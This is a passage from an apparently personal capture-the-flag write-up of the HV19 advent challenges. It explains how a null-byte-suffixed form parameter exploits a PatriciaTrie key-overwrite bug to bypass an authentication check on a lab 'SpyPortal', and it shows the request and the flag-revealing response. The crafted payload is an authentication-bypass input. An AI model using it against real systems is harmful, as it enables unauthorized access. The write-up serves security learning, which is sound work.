 If I post with the name of `auth_token_4835989\u0000`, due to the bug in
Common Collections PatriciaTrie, it will overwrite the original key with mine.
Then when Java checks to see if the key `auth_token_4835989` is present, it
won’t be, because only `auth_token_4835989\u0000` remains.

In practice, I POST with `j_idt14%3Aname=auth_token_4835989%5cu0000` (rest of
the parameters the same), and I get back:

    
    
    HTTP/1.1 200 
    X-Powered-By: JSF/2.0
    Content-Type: text/html;charset=UTF-8
    Content-Length: 560
    Date: Fri, 13 Dec 2019 02:31:03 GMT
    Connection: close
    
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml"><head>
         <title>SpyPortal</title><link type="text/css" rel="stylesheet" href="/trieme/faces/javax.faces.resource/style.css?ln=css" /></head><body>
         <h3>Secret Spy Portal</h3>
         <h4>STATUS:
          We will steal all the national chocolate supplies at christmas, 3pm: Here's the building codes: HV19{get_th3_chocolateZ}
          
      !</h4></body>
    </html>
    

**Flag:`HV19{get_th3_chocolateZ}`**

## Day 14

### Challenge

![hv19-ball14](https://0xdfimages.gitlab.io/img/hv19-ball14.png) | HV19.14 Achtung das Flag  
---|---  
Categories: |  ![fun](../img/hv-cat-fun.png)FUN  